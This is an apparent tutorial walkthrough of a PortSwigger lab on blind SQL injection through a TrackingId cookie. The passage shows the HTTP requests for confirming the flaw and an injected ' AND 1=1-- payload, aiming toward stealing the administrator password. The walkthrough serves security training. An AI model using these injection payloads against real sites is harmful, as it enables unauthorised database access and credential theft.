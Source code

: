 # 💀 Lab Walkthrough: Blind SQL Injection with Conditional Responses – Stealing Administrator Password
## 🧪 LAB SETUP

- URL: [PortSwigger](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses)
- Vulnerability: Blind SQL injection via `TrackingId` cookie
- Goal: Log in as `administrator`
- Technique: **Blind SQL injection with conditional responses**
- Tool used: **Burp Suite**

## 🔍 Step 1: Confirm SQLi Vulnerability Exists

### 📥 Request:
```http
GET / HTTP/1.1
Host: your-lab-url.com
Cookie: TrackingId=ZHWKDa1jPXivi6Y5
```

### 💡 Observation:
You see a **"Welcome back" message** → This indicates the query returned at least one row.

Now try:

### 📥 Request:
```http
GET / HTTP/1.1
Host: your-lab-url.com
Cookie: TrackingId=ZHWKDa1jPXivi6Y6
```

### 💡 Observation:
No "Welcome back" message → Query returned no rows.

👉 **Conclusion**: The application behaves differently based on SQL query results → **Blind SQL injection is possible** ✅

## ⚙️ Step 2: Test Basic Boolean Logic

Try injecting a simple `AND 1=1` condition:

### 📥 Cookie:
```http
Cookie: TrackingId=ZHWKDa1jPXivi6Y5' AND 1=1--
```

### 💡 Result: Welcome back appears ✅  
✅ The condition evaluated to TRUE.
